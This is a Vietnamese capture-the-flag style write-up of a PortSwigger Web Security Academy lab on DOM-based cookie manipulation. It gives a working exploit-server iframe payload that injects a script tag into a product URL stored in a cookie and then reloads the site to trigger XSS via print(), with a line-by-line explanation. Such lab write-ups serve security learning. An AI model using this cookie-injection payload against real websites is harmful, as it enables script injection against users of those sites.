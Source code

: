 ## DOM-based cookie manipulation

> Lab này nói rõ rằng cookie bị tào lao nên để solve lab chúng ta cần inject vào cookie 1 đoạn script gây ra xss bằng cách gọi hàm print()

![](/imgs/DOM-BASED-VULNERABILITIES/12.png?raw=true)

Khi vào xem 1 sản phẩm bất kì cookie sẽ lưu lại link của sản phẩm cuối cùng đã xem

![](/imgs/DOM-BASED-VULNERABILITIES/13.png?raw=true)

Vậy exploit server sẽ có đoạn body như sau:

```html
<iframe src="https://accc1fa81efb316280f40d10006d00f3.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!x)this.src='https://accc1fa81efb316280f40d10006d00f3.web-security-academy.net/';x='err';">
```

> ***/product?productId=1&'><script>print()</script>*** sẽ đóng đoạn truyền thêm param lại, và sau đó chuyển qua tới đoạn script.

> ***onload="if(!x)this.src='https://accc1fa81efb316280f40d10006d00f3.web-security-academy.net/';x='err'*** => ta sẽ chỉ ra 1 biến tào lao nào đó không tồn tại để thực hiện execute cái src thôi.

![](/imgs/DOM-BASED-VULNERABILITIES/14.png?raw=true)

### Tài liệu tham khảo
- DOM-based Vuln: [https://portswigger.net/web-security/dom-based](https://portswigger.net/web-security/dom-based)